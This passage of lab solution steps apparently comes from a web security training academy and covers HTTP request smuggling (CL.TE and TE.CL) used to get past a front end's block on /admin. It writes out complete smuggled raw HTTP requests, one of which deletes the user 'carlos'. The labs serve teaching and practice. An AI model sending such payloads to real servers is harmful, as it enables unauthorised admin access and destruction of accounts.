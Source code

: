     0  
      
    GET /admin HTTP/1.1  
    Host: localhost  
    X-Ignore: X`
5.  Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6.  Issue the following request twice so the second request's headers are appended to the smuggled request body instead:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 116  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
      
    x=`
7.  Observe that you can now access the admin panel.
8.  Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 139  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin/delete?username=carlos HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
      
    x=`

### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

-   Try to visit `/admin` and observe that the request is blocked.
-   In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
-   Using Burp Repeater, issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-length: 4  
    Transfer-Encoding: chunked  
      
    60  
    POST /admin HTTP/1.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 15  
      